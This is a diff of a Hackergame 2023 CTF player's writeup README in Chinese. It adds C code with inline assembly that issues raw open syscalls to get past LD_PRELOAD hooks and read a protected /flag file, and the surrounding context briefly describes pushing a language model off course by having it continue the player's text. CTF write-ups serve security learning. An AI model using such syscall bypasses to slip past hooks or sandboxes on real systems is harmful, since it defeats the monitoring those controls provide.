

Before and after one commit to USTC-Hackergame/hackergame2023-writeups, a Markdown page: players/L4wr3ncE/README.md, the part around the change. Shown at 94% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
add new writeup

````diff
--- a/players/L4wr3ncE/README.md
+++ b/players/L4wr3ncE/README.md
@@ -325,3 +325,59 @@ Hackergame 启动
    - 第一问就差点给我整疯掉，因为一直没发现他的回答是接着我的话继续编故事的。后面发现这个规律以后反而还能逼模型发疯了（（比如下图 ![llm_go_mad.jpg](img/llm_go_mad.jpg)
  - accept
    - 看到题目说要求七个字符输出心就凉了大半，没办法硬着头皮上，本地跑模型开始字典 brute force，最后跑出来一个 `d}`，成功拿到了 flag
+
+为什么要打开 /flag
+---
+ - LD_PRELOAD, love!
+   - 虽然题目附件里把我能想到的大部分骚操作都给 hook 走了，但是他拦不住我 syscall 呀！
+```c
+#include <sys/syscall.h>
+#include <stdio.h>
+#include <string.h>
+#include <stdlib.h>
+
+int syscall_open(char *path, long oflag)
+{
+    int fd = -1;
+    #ifdef __i386__
+    __asm__ (
+             "mov $5, %%eax;" // Open syscall number
+             "mov %1, %%ebx;" // Address of our string
+             "mov %2, %%ecx;" // Open mode
+             "mov $0, %%edx;" // No create mode
+             "int $0x80;"     // Straight to ring0
+             "mov %%eax, %0;" // Returned file descriptor
+             :"=r" (fd)
+             :"m" (path), "m" (oflag)
+             :"eax", "ebx", "ecx", "edx"
+             );
+    #elif __amd64__
+    __asm__ (
+             "mov $2, %%rax;" // Open syscall number
+             "mov %1, %%rdi;" // Address of our string
+             "mov %2, %%rsi;" // Open mode
+             "mov $0, %%rdx;" // No create mode
+             "syscall;"       // Straight to ring0
+             "mov %%eax, %0;" // Returned file descriptor
+             :"=r" (fd)
+             :"m" (path), "m" (oflag)
+             :"rax", "rdi", "rsi", "rdx"
+             );
+    #endif
+    return fd;
+ }
+
+int main(void)
+{
+    char buffer[256];
+    int fd = syscall_open("/flag", O_RDONLY);
+    if (fd == -1) {
+        fprintf(stderr, "open failed\n");
+        return NULL;
+    }
+    read(fd, buffer, sizeof(buffer));
+    close(fd);
+    fprintf(stdout, "%s", buffer);
+    return 0;
+}
+```
````
Also changed, not shown: README.md (+1 -0 lines).
